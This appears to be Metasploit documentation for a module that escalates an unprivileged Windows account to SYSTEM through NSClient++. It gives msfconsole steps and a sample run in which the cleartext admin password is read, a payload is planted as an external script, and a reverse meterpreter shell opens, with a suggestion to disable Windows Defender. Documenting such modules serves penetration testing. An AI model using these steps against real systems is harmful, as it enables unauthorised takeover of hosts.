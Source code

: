## Vulnerable Application

### Description

This module allows an attacker with an unprivileged windows account to gain admin access on windows system and start a shell.
For this module to work, both web interface of NSClient++ and `ExternalScripts` feature should be enabled.
You must also know where is the NSClient config file as it is used to read the admin password which is stored in clear text.

### Installation

A vulnerable version of NSClient++ can be downloaded from [here]https://nsclient.org/download/). Then you can help yourself with
this [installation guide](https://docs.nsclient.org/api/rest/) to complete the installation. Don't forget to enable the web interface
and the `ExternalScripts` feature to allow the exploit to work.

## Verification Steps

List the steps needed to make sure this thing works

1. Start `msfconsole`
2. `use exploit/windows/local/nscp_pe`
3. `set SESSION <session>`
4. `set FILE <NSCP_config_file>` if the NSCP config file is not `C:\Program Files\NSClient++\nsclient.ini`
5. `check` to check if the targeted NSClient++ is vulnerable
6. `set payload <choose_a_payload>` to set a specific payload to send
7. `run` the module to exploit the vulnerability, gain admin access and start a shell

## Options

### FILE

Set the config file of NSClient++. If you don't know, try with the default value.

## Scenarios

This module was successfully tested on Windows 10 Home (you may need to disable Windows Defender as msf payload could be spotted).
See the following output :

```
msf exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                   Connection
  --  ----  ----                     -----------                                   ----------
  12        meterpreter x64/windows  DESKTOP-T5N69RR\basic_user @ DESKTOP-T5N69RR  172.18.15.143:4444 -> 172.18.15.142:64307 (172.18.15.142)


msf exploit(nscp_pe) > set session 12
session => 12
msf exploit(nscp_pe) > run

[!] SESSION may not be compatible with this module (incompatible session type: meterpreter)
[*] Started reverse TCP handler on x.x.x.x:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Admin password found : easypassword
[+] NSClient web interface is enabled !
[+] The target is vulnerable. External scripts feature enabled !
[+] Admin password found : easypassword
[+] NSClient web interface is enabled !
[*] Configuring Script with Specified Payload . . .
[*] Added External Script (name: lrawsiaajn)
[*] Saving Configuration . . .
[*] Reloading Application . . .
[*] Waiting for Application to reload . . .
[*] Triggering payload, should execute shortly . . .
[*] Sending stage (200262 bytes) to y.y.y.y
[*] Meterpreter session 13 opened (x.x.x.x:4444 -> y.y.y.y:64309) at 2021-06-09 14:37:10 +0200

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

